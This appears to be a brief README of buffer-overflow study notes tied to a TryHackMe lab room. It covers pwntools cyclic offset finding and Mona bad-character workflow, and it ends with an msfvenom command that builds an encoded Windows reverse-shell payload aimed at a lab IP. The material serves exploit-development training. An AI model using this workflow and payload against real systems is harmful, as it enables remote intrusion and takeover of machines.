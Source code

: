 # BOF
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907


OR

cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 

```


## Mona CheatSheet

**Setup your working directory**

`!mona config -set workingfolder c:\mona\%p`

<br>
<br>


**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your fuzzer till a crash**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
